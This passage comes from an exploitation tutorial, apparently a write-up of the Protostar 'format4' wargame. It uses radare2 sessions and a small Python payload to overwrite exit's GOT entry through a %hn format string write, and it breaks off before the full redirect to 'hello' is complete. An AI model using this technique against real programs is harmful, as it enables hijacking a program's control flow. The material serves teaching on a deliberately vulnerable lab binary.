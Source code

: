 ```sh 
$ r2 -R stdin=/tmp/format4 -d format4
...
[0xf7fd6c70]> db 0x08048500 ; Breakpoint before the vulnerable printf
[0xf7fd6c70]> db 0x08048508 ; Breakpoint after the vulnerable printf
[0xf7fd6c70]> dc            ; Continue the execution of the program
hit breakpoint at: 8048500

[0x8048500]> px @ 0x8049724
- offset -   0 1  2 3  4 5  6 7  8 9  A B  C D  E F  0123456789ABCDEF
0x08049724  f283 0408 0000 0000 0000 0000 c005 fbf7  ................ ; The content of 0x08049724 (exit) is 0x080483f2
...
[0x08048500]> dc           ; Continue the execution of the program
$�.
hit breakpoint at: 8048508
[0x08048508]> px @0x8049724
- offset -   0 1  2 3  4 5  6 7  8 9  A B  C D  E F  0123456789ABCDEF
0x08049724  0400 0000 0000 0000 0000 0000 c005 fbf7  ................ ; The content of 0x08049724 (exit) has been modified to 0x00000004
```

**NOTE**: Rarun2 (`-R`) is a tool allowing to set up a specified execution environment. In this case a rarun2 rule is defined to tell the program that the input of the program must be taken from what is in the file `/tmp/format4`*

The content of `exit`'s GOT entry has been successfully modified, the next step is to overwrite its content with the address of `hello`. One additional strategy that can facilitate the exploitation of a format string is to use a short write. A *short* is a two-byte word and there is a format specifier that allows us to deal with *shorts* (`h`). Since the address of `hello` is formed by 4 bytes, it can be divided into two short writes one to `0x08049724` and another to `0x08049726`:

```python=
import struct

exit_fnc = 0x8049724

payload = struct.pack("I",exit_fnc)
payload += "%4$hn"                        #Using hn to write a short

print(payload)
```

```sh 
$ python format4_string.py > /tmp/format4
$ r2 -R stdin=/tmp/format4 -d format4
...
[0xf7fd6c70]> aaa
...
[0xf7fd6c70]> dcu main
Continue until 0x08048514 using 1 bpsize
hit breakpoint at: 8048514
[0x08048514]> db 0x08048508
[0x08048514]> dc
$�.
hit breakpoint at: 8048508
[0x08048508]> px @0x8049724
- offset -   0 1  2 3  4 5  6 7  8 9  A B  C D  E F  0123456789ABCDEF
0x08049724  0400 0408 0000 0000 0000 0000 c005 fbf7  ................    ; The content of 0x08049724 (exit) has been modified to 0x08040004 (2 bytes were modified)
```
